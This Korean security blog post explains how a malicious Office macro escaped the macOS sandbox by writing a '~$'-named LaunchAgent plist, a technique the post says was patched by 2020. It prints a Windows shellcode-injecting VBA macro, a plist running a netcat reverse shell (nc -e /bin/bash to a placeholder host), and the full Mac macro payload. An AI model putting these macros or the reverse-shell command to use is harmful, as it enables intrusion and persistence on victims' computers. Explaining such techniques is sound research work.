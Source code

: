 ```yaml
---
layout: post
title:  "MacOs에서 Office Sandbox Bypass"
author: "hkkiw0823"
comments: true
tags: [mac]
---
```


라온화이트햇 핵심연구팀 강인욱
hkkiw0823@gmail.com

Office 공격이 유행함에 따라 최근 공격자들은 Windows 뿐만 아니라 MacOs까지 호환되도록 범위를 넓혔습니다. 해외에서는 MacOs를 사용하는 유저들이 더 많아서 Windows 만으로는 공격 성공률이 낮습니다. 하지만 지금까지 MacOs에서 Office 공격이 왜 발생하지 않았는지에 대해서 알아보도록 합니다.

* 이 문서에 기술된 시작프로그램 등록 방법은 현재 패치가 이루어져서 작동하지 않습니다.

일반적으로 Windows Macro는 아래와 같이 진행됩니다.

    
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
    Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long
    
    
    Sub Auto_Open()
            Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
    #If Vba7 Then
            Dim  Xlbufvetp As LongPtr
    #Else
            Dim  Xlbufvetp As Long
    #EndIf
            Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
    139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
    13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
    116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
    214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
    36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
    139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
    235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
    224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
    187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
            Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
            For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                    Wyzayxya = Hyeyhafxp(Zolde)
                    Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
            Next Zolde
            Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
    End Sub

excel.exe에 쉘코드를 삽입 후 CreateThread로 실행을 해주는 모습입니다.

Mac 에서는 아래와 같이 사용할 수 있습니다.

    Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
    Sub Document_Open()
       system("~~~~")
    End Sub

Mac에서는 더 간단한 것처럼 보이지만 Mac에는 기본적으로 Sandbox가 존재합니다.

Mac에서 아래와 같이 명령어를 입력하면 사용할 수 있는 권한이 나타납니다.

    codesign --display -v --entitlements - /Applications/Microsoft\ Word.app

    ...
    com.apple.security.files.bookmarks.app-scope
    com.apple.security.files.user-selected.read-write
    com.apple.security.network.client
    com.apple.security.personal-information.addressbook
    com.apple.security.print
    ...
    com.apple.security.temporary-exception.sbpl
    (allow file-read* file-write*
    (require-any
    (require-all (vnode-type REGULAR-FILE) (regex #"(^|/)~\$[^/]+$"))
    )
    )

Mac에서는 자체적으로 App마다 SandBox가 있어서 특정 행동을 하기 위해선 권한이 필요합니다. 아마 이 때문에 Mac에서 Office를 이용한 공격이 성행하지 않았던 것으로 보입니다.

위에 있는 Office 권한을 자세히 살펴보면 파일 읽기와 쓰기 권한을 사용할 때 특정 조건이 맞춰지면 사용할 수 있는 것처럼 보입니다.

    ~$xxxx.docx

어디서 많이 본 듯한 파일명입니다. Office의 경우 처음 문서를 열면 기본적으로 임시파일을 "~$파일명"에 생성합니다. 그렇기 때문에 Office를 실행할 때마다 권한 문제를 일으키지 않기 위해 정규식으로 허용해 둔 모습입니다.

이제 저 정규식을 가지고 Sandbox를 우회해봅니다.

MacOs에서는 아래와 같은 폴더에 plist파일을 등록하면 재부팅시 해당 바이너리를 실행하게 됩니다.

![/assets/3f1a9809-588d-4a26-af2c-de70b1c99b27/1548c49d-9949-4c30-81c6-13f126c3ac12launchd_dirs.png](/assets/3f1a9809-588d-4a26-af2c-de70b1c99b27/1548c49d-9949-4c30-81c6-13f126c3ac12launchd_dirs.png)

/System 이나 /Library 는 기본적으로 권한이 없어서 실제 공격시엔 유저 권한인 ~/Library를 이용해야 합니다.

~/Library/LauchAgents에 파일을 작성할 수 있다면 시작프로그램을 등록하여 재부팅할 때마다 악성프로그램이 동작하게 할 수 있습니다.

아래와 같이 plist파일을 작성하여 시작프로그램 폴더에 등록한다면 실제로 재부팅할 때마다 nc로 붙은 것을 확인할 수 있습니다.

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
    <plist version="1.0">
    <dict>
    <key>Label</key>
    <string>com.xpnsec.escape</string>
    <key>ProgramArguments</key>
    <array>
    <string>python</string>
    <string>-c</string>
    <string>import os; os.system("nc -e /bin/bash xxxxxx 31337")</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    </dict>
    </plist>

최종적인 페이로드는 아래와 같습니다.

    Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
    Private Sub Document_Open()
    Dim path As String
    Dim payload As String
    payload = "import os; os.system(\"nc -e /bin/bash xxxxxx 31337\")"
    path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
    arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
    "<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
    "<plist version=""1.0"">\n" & _
    "<dict>\n" & _
    "<key>Label</key>\n" & _
    "<string>com.xpnsec.sandbox</string>\n" & _
    "<key>ProgramArguments</key>\n" & _
    "<array>\n" & _
    "<string>python</string>\n" & _
    "<string>-c</string>\n" & _
    "<string>" & payload & "</string>" & _
    "</array>\n" & _
    "<key>RunAtLoad</key>\n" & _
    "<true/>\n" & _
    "</dict>\n" & _
    "</plist>"
    Result = system("echo """ & arg & """ > '" & path & "'", "r”)
    End Sub

2020. 03 기준으로 해당 우회법은 MS Office 측에서 패치를 하여 더 이상 사용할 수 없습니다.

시작프로그램에 등록하는 것은 불가능하지만 문서를 열었을때 쉘을 획득하여 이것저것 할 수는 있어 보입니다.